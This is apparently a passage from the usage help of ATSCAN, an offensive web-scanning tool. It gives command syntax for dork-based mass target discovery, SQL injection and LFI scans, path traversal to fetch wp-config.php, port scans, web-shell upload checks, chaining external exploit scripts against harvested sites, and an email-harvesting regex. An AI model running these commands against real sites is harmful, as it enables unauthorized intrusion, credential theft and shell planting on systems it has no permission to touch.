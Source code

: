        E-mails: '((([A-Za-z0-9]+_+)|([A-Za-z0-9]+\-+)|([A-Za-z0-9]+\.+)|([A-Za-z0-9]+\++))*[A-Za-z0-9]+@((\w+\-+)|(\w+\.))*\w{1,63}\.[a-zA-Z]{2,6})' <br/>
        <hr>
       &#x25cf; <b>REPEATER:</b> <br/>
       atscan -t site.com?index.php?id=rang(1-10) --sql <br/>
       atscan -t [target] --expHost "/index.php?id=rang(1-10)" --sql <br/>
       atscan -t [target] --expHost "/index.php?id=repeat(../-9)wp-config.php" <br/>
        <hr>
       &#x25cf; <b>PORTS</b> <br/>
       atscan -t [ip] --port [port] [--udp / --tcp] <br/>
       atscan -t (ip start)-(ip end) --port [port] [--udp / --tcp] <br/>
       atscan -t [ip] --port (port start)-(port end) [--udp / --tcp] --command "your extern command" <br/>
        <hr>
       &#x25cf; <b>ENCODE / DECODE:</b> <br/>
       Generate MD5: --md5 [string] <br/>
       Encode base64: --encode64 [string] <br/>
       Decode base64: --decode64 [string] <br/>
        <hr>
       &#x25cf; <b>DATA:</b> <br/>
       Data: atscan -t [target] --data "field1=>value1, field2=>value2, field3=>value3" [--post / --get / --upload]<br/>
       Exploit: --exp/expHost <exploit> --data "field1=>value1, field2=>value2, field3=>value3" --vshell [shell path] -v [string] / --status [code] [--post / --get / --upload] <br/>
       Wordlist: --data "field1=>value1, field2=>WORDLIST:<wordlist path>" --vshell [shell path] -v [string] / --status [code] [--post / --get / --upload] <br/>
        <hr>
       &#x25cf; <b>EXTERNAL COMMANDS:</b> <br/>
       atscan --dork [dork / dorks.txt] --level [level] --command "curl -v --TARGET" <br/>
       atscan --dork [dork / dorks.txt] --level [level] --command "list.txt" <br/>
       atscan --dork [dork / dorks.txt] --level [level] --command "curl -v --HOST"  <br/>
       atscan --dork [dork / dorks.txt] --level [level] --command "nmap -sV -p 21,22,80 --HOSTIP"  <br/>
       atscan -d "index of /lib/scripts/dl-skin.php" -l 20 -m 2 --command "php WP-dl-skin.php-exploit.php --TARGET" <br/>
        <hr>
       &#x25cf; <b>MULTIPLE SCANS: </b><br/>
       atscan --dork [dork> --level [10] --sql --lfi --wp ..<br/>
       atscan --dork [dork> --level [10] --replace [string => new_string] --exp/expHost [payload] [--sql / --lfi / --wp /...]<br/>
       atscan -t [ip] --level [10] [--sql / --lfi / --wp /...]<br/>
       atscan -t [target] [--sql / --lfi / --wp /...] <br/>
        <hr>
       &#x25cf; <b>USER PAYLOADS: </b><br/>
       atscan --dork [dork] --level [10] [--lfi | --sql ..] --payload [payload | payloads.txt] <br/>
        <hr>
       &#x25cf; <b>IP LOCALISATION: </b><br/>
       atscan -t [ip/target] --geoloc <br/>
        <hr>
       &#x25cf; <b>SEARCH VALIDATION: </b><br/>
       atscan -d [dork / dorks.txt] -l [level] --status [code] / --valid [string/list.txt] <br/>
       atscan -d [dork / dorks.txt] -l [level] --status [code] / --valid [string/list.txt] --all <br/>
       atscan -d [dork / dorks.txt] -l [level] --status [code] / --exclude [string/list.txt] <br/>
       atscan -d [dork / dorks.txt] -l [level] --ifinurl [string] <br/>
       atscan -d [dork / dorks.txt] -l [level] --sregex [regex] --valid [string] <br/>
       atscan -d [dork / dorks.txt] -l [level] --regex [regex] --valid [string] <br/>
       atscan -d [dork / dorks.txt] -l [level] --unique  <br/>
        <hr>
       &#x25cf; <b>SCAN VALIDATION: </b><br/>
       atscan -t [target / targets.txt] [--status [code] / --valid [string] <br/>
       atscan -t [target / targets.txt] --vshell [file path] <br/>
       atscan -d [dork / dorks.txt] -l [level] --exp/expHost [payload] --status [code] / --valid [string] <br/>
       atscan -d [dorks.txt] -l [level] --replace [string => new_string] --status [code] / --valid [string] <br/>